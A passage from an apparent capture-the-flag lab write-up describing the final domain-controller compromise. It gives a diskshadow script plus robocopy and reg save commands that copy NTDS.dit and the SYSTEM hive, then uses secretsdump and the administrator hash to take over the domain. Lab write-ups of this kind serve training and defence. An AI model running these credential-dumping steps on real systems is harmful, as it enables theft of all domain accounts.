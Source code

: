 # Owned
## SeBackupPrivilege
Upon enumerating privileges, I found that I had SeBackupPrivilege, allowing me to copy **NTDS.dit** and **SYSTEM**, retrieving all NTLM hashes.
![](https://photos.squarezero.dev/file/abir-images/xen/43.png)

I attempted to use [Giuliano's](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)exploit, but it was immediately flagged by the antivirus.
![](https://photos.squarezero.dev/file/abir-images/xen/44.png)

I created a script for diskshadow to generate a shadow copy of the C drive.
`diskshadow /s script.txt`

Contents of **script.txt**:
```bash
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

![](https://photos.squarezero.dev/file/abir-images/xen/48.png)

I then used **reg save** to copy the SYSTEM hive and **robocopy** to extract NTDS.dit.
`robocopy /b E:\Windows\ntds . ntds.dit`
`reg save HKLM\SYSTEM SYSTEM.SAV`
![](https://photos.squarezero.dev/file/abir-images/xen/45.png)

After downloading the files, I used **secretsdump** to extract the hashes and obtained the domain administrator hash.
![](https://photos.squarezero.dev/file/abir-images/xen/46.png)

Using the administrator hash, I accessed the DC and retrieved the final flag.
![](https://photos.squarezero.dev/file/abir-images/xen/47.png)